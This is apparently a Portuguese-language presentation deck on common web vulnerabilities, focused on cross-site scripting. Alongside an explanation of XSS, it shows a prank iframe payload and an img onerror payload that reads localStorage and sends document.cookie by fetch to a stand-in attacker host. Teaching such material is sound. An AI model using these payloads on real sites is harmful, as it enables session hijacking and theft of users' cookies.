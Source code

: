 # Vulnerabilidades comuns

<v-clicks>

- 🐵: Vulnerabilidades no código-fonte
- 🐔: Execução indesejada de script
- 🐸: Escapando/codificando entrada do usuário
- 🦄: Filtrando entrada
- 🐙: Validação de entrada
- 🐧: Validação do lado do cliente
- 🐷: Roubando dados da sessão
- 🐼: Induzindo usuários a realizar ações não intencionadas

</v-clicks>

---

# XSS

<div grid="~ cols-2 gap-4">
<div>
As falhas de XSS ocorrem sempre que uma aplicação inclui dados não-confiáveis numa nova página web sem a validação ou filtragem apropriadas, ou quando atualiza uma página web existente com dados enviados por um utilizador através de uma API do browser que possa criar JavaScript. O XSS permite que atacantes possam executar scripts no browser da vítima, os quais podem raptar sessões do utilizador, descaraterizar sites web ou redirecionar o utilizador para sites maliciosos.
</div>
<div>

<v-click>

### prank
```html
 <iframe width="100%" height="166" scrolling="no"
    frameborder="no" allow="autoplay"
    src="http://ellisonleao.github.io/clumsy-bird/">
 </iframe>
```
</v-click>

<v-click>

### get localStorage/cookie
```html {1-3|5-14|7-12|10|all}
<image src=1 href=1
    onerror="javascript:alert(localStorage[0])">
</image>

<image src=1 href=1
    onerror="
    javascript:fetch('https://maquina.atacante.com/',
        { method: 'POST',
            body: JSON.stringify({
                cookie: document.cookie
            })
        });
">
</image>
```
</v-click>
